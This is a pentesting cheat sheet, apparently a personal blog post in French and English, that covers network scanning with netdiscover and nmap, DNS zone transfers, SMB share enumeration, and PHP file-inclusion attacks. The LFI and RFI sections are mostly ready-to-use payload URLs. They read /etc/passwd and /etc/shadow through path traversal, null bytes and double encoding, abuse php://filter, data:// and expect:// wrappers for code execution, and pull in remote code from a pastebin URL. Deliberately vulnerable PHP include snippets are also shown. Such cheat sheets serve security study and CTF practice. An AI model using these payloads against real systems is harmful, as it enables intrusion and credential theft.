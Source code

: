 ```yaml
---
layout: post
title: "Cheatseet"
author: "fhbapt"
permalink: /cheatseet/
---
```


## Table of Contents


### [Network](#network)  
 * [Network discovery](#network-discovery)
    * [Netdiscover](#netdiscover) 
    * [Nmap](#nmap)
  * [Services enumerations](#services)
    * [53 - DNS](#dns)
    * [139/445 - SMB](#smb)

### [Web vulnerabilities](#web)
 * [File Inclusion](#file-inclusion)
   * [LFI (Local File Inclusion)](#lfi)
   * [RFI (Remote File Inclusion)](#rfi)

## Common tools for network discovery <a name="network-discovery"></a>
In this chapter, the most common tools and commands use to dicover network architecture are presented. 

### Netdiscover commands <a name="netdiscover"></a>

> Netdiscover is an active/passive arp reconnaissance tool


```netdiscover -p``` Sniffing network trafic, Netdiscover sent anything 


```netdiscover -r 192.168.X.X/24``` Scan of subnetwork 192.168.X.X/24 by sending ARP frames


### Nmap commands <a name="nmap"></a>

```nmap -sL 192.168.X.X/24``` Permet de scanner les hôtes d'un sous réseau

```nmap -sP 192.168.X.X/24``` Lister les hôtes du réseau qui répondent à l'ICMP

```nmap -sU 192.168.X.X``` Scan d'une machine pour lister ses ports ouverts en UDP

```nmap -Pn -A 192.168.X.X(/24) --open``` Scan des machines ou réseau avec la liste des ports ouverts

```nmap -Pn --script=smb-enum-shares -p 445 192.168.X.X```

## Services enumerations <a name="services"></a>

### 53 - DNS <a name="dns"></a>

> Un transfert de zone complet (AXFR) consiste pour un serveur DNS esclave à demander une copie de zone de à un serveur maitre qui le permet. Cette fonctionnalité est reprise par l'attaquant pour découvrir des sous domaines.

Commands DIG :

```dig axfr @dns-server nom-de-domaine``` 

### 139/445 - SMB <a name="smb"></a>

SMB Commands :

```smbclient -U guest //192.168.X.X/share``` Télécharge les fichiers sur un serveur SMB

```smbget -U guest -R smb://192.168.X.X/share ``` Télécharge les fichiers sur un serveur SMB

## File Inclusion <a name="file-inclusion"></a>

### LFI (Local File Inclusion) <a name="lfi"></a>

Vulnérabilité permettant l'inclusion de fichier local.

Exemple de LFI :

```php
<?php @include("./page/".$_GET['page']) ?>
```

**Basic LFI**

```https://fhbapt.github.io/?page=index.php``` Récupération du fichier index.php

```https://fhbapt.github.io/?page=../config.php``` Récupération du fichier config.php

```https://fhbapt.github.io/?page=./../../../etc/password``` Recupération du fichier password

Les fichiers intéressants :
 * /etc/passwd
 * /etc/shadow
 * /etc/hosts
 * /etc/group
 * /proc/cmdline
 * Fichiers de logs
 * Fichiers de backups

**Null Byte, Double encoding**

```https://fhbapt.github.io/?page=etc/password%00``` Null Byte : %00

**Double Encoding**

```
https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd
https://fhbapt.github.io/?page=%252e%252e%252fetc%252fpasswd%00
```

**Wrapper php://filter**

```
https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

**Wrapper data://**

```
https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
La payload est <?php phpinfo(); ?>
```

**Wrapper expect:// **

`https://fhbapt.github.io/?page=expect://ls`

### RFI (Remote File Inclusion) <a name="rfi"></a>

Vulnérabilité permettant l'inclusion de fichier distant.

Exemple de RFI :

```php
<?php @include($_GET['page']) ?>
```

Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:

```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG``` 
